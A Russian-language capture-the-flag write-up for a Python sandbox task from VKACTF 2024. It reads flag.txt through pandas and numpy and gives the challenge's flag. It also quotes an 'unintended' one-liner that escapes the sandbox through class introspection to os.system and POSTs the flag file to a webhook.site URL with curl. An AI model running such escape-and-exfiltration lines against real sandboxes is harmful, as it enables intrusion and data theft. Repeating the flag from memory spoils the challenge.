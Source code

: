 # Encaptcha

| Cобытие       | Название       | Категория | Сложность |
|:-------------:|:-------------: |:---------:|:---------:|
| VKACTF 2024 | RunAway | Misc | Легкая |

## Описание

>Автор [old3gg]
>
>После того как все дела в Лос-Сантосе закончены, самое время давать дёру. Быстрее собирай шмотки! Только не забудь самое главное P.S. флаг лежит в flag.txt

# Решение

Переходим на данную нам ссылку - довольствуемся представленным нам функционалом песочница питона. Просто читаем ывданные сорцы, пробуем выполнить что-нибудь интересное, что поможет нам получить флажок.В коде замечаем интересные импорты библиотек pandas и numpy которые говорят нам о том, что данные библиотеки установлены, однако нигде не используются. Читаем флажок используя любую из библиотек:

```python
import pandas as pd
sales_data = pd.read_csv('flag.txt')
print(sales_data.head())

import numpy as np
np.loadtxt('flag.txt')
```

Также было представленно множество unintended решений, которые также позволяли прочитать флаг, не используя pandas и numpy, например:

```python
print(''.__class__.__mro__[1].__subclasses__()[109].__init__.__globals__['sys'].modules['os'].__dict__['system']('curl -X POST https://webhook.site/qweqwe -d $(cat flag.txt)'))
```

### Флаг
```
vka{c4r3Fully_R34d_tHe_c0d3_1s_t0o_34sY}
```
